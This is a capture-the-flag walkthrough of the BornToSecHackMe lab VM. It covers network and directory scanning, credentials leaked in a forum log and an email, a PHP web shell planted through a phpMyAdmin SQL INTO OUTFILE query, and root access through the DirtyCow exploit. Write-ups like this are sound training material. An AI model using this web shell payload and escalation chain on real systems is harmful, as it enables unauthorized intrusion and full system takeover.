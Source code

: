 # IP of Virtual Machine

Let's find IP of VM. To do it we use nmap.

```shell
pavel@pavel-VirtualBox:~/Desktop$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 10:56 MSK
Nmap scan report for pavel-VirtualBox (192.168.56.102)
Host is up (0.00036s latency).
All 1000 scanned ports on pavel-VirtualBox (192.168.56.102) are closed

Nmap scan report for 192.168.56.104
Host is up (0.00044s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

The IP address of VM is 192.168.56.104

# Scan <https://192.168.56.104>

The next step is to go to http://192.168.56.104 in browser.
After that let's use dirb to analyze it.

```shell
pavel@pavel-VirtualBox:~/Desktop$ dirb https://192.168.56.104 -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jan 13 11:13:12 2021
URL_BASE: https://192.168.56.104/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://192.168.56.104/ ----
+ https://192.168.56.104/cgi-bin/ (CODE:403|SIZE:291)                                                                                                                                                     
==> DIRECTORY: https://192.168.56.104/forum/                                                                                                                                                              
==> DIRECTORY: https://192.168.56.104/phpmyadmin/                                                                                                                                                         
+ https://192.168.56.104/server-status (CODE:403|SIZE:296)                                                                                                                                                
==> DIRECTORY: https://192.168.56.104/webmail/                                                                                                                                                            
                                                                                                                                                                                                          
-----------------
END_TIME: Wed Jan 13 11:13:14 2021
DOWNLOADED: 4612 - FOUND: 2
```

Let's check out the forum

```shell
==> DIRECTORY: https://192.168.56.104/forum/ 
```

# FORUM

Let's go to "Probleme login ?" page

Searching for "password" we can see an interesting log:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

The user confused the username with the password, and we can exploit this mistake.

Forum

    login: lmezard
    password: !q\]Ej?*5K5cy*AJ

Now let's get his e-mail from his profile in Forum and move to Webmail

Webmail

    login: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ
  
In hix box there is an email called "DB Access"

    Hey Laurie,

    You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

    Best regards.

Now we can go to 192.168.56.104/phpmyadmin

# PHP page as Shell

We will use SQL query to execute the commands via URL

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile '/var/www/forum/templates_c/backdoor.php'
```

From this moment we will execute our commands
```
https://192.168.56.104/forum/templates_c/backdoor.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz
```

```   
https://192.168.56.104/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATAME
password
```

```
https://192.168.56.104/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

So, let's use these login and password to connect via FTP. We can do it using FileZilla.

    host: 192.168.56.104
    user: lmezard
    pass: G!@M6f4Eatau{sF"
    port: 21

# Files into Password

There are two files 

1) fun - Archive
2) README.md

```
pavel@pavel-VirtualBox:/media/sf_shared_folder$ tar -xf fun
pavel@pavel-VirtualBox:/media/sf_shared_folder$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Let's see what we had in an archive
```
pavel@pavel-VirtualBox:/media/sf_shared_folder$ ls -l ./ft_fun | wc -l
751
```

There are 751 files in that archive. And we arrange them in correct order using `script.py`.

After rearrangement we run the new `script.c` and get the password.

```shell
pavel@pavel-VirtualBox:/media/sf_shared_folder$ gcc script.c 
pavel@pavel-VirtualBox:/media/sf_shared_folder$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

```shell
pavel@pavel-VirtualBox:/media/sf_shared_folder$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

And now we're ready to connect via SSH

    login: laurie
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# After SSH

For the next step we need to use system vulnerabilities.
The Linux kernel we are working with is:

``` bash
$ uname -r
3.2.0-91-generic-pae
```

``` bash
$ cat /etc/*-release
Ubuntu, 12.04
```

In order to explit it we search this [website](www.exploit-db.com) and find the [next variant](https://www.exploit-db.com/exploits/40839)

This exploit uses the dirtycow vulnerability, which is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.



After compiling and running the program the user will be prompted for the new password.

Then this exploit back up the /etc/passwd file to /tmp/passwd.bak and overwrites the root account with the generated line.

After running the exploit you should be able to login with the newly created user, whiср name is "firefart" by default, and use this exploit to modify the user values according to your needs.

Compile the file
``` bash
$ gcc -pthread dirty.c -o dirty -lcrypt
```
Run the script with your new password
``` bash
$ ./dirty <my-new-password>
```
Log in to the root user named firefart
``` bash
$ su firefart
```

Enter your new password
